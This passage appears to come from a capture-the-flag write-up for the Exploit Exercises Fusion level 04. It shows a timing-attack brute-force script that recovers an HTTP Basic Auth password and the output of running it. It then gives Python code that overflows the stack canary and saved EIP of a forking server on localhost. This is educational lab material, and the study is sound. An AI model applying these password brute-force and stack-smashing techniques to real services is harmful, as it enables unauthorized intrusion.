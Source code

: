 ```lang-python line-numbers 
                                print("Eureka " + password + char)
                                return password + char
                        else:
                                if time < others:
                                        candidate = char
                                        others = time
                password += candidate
                print(password)
                i += 1
passwd = bruteforce()
```

If we run it we will get the passord:

```lang-bash line-numbers 
fusion@fusion:~$ python fusion04.py
B
B0
B0f
B0fN
B0fNG
B0fNGX
B0fNGXy
B0fNGXyn
B0fNGXynX
B0fNGXynX8
B0fNGXynX8i
B0fNGXynX8io
B0fNGXynX8io6
B0fNGXynX8io6G
B0fNGXynX8io6GN
Eureka B0fNGXynX8io6GNO
```

Ok, now we need to smash the stack but there is a canary (SSP) guarding it so we need a way to find out the right canary.

When a server program calls "fork()" to handle a client request but it does not call "execve()" the address space for the child processes will be exactly the same as its parents so the same "canary" value will be reused for every client request.

Fortunately for us, the application will let us know when the canary is wrong or right. Lets just overflow the canary and EIP to verify it:

```lang-python line-numbers 
credentials = base64.b64encode("stack6:{0}".format(passwd))
s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 20004))
request = "GET / HTTP/1.0\r\n"
request += "Authorization: Basic {0}\r\n".format(credentials + "A"*4096 + "DDDD" + "CCCC")
request += "\n"
s.send(request)
response = s.recv(1024)
print(response)
s.close()
```

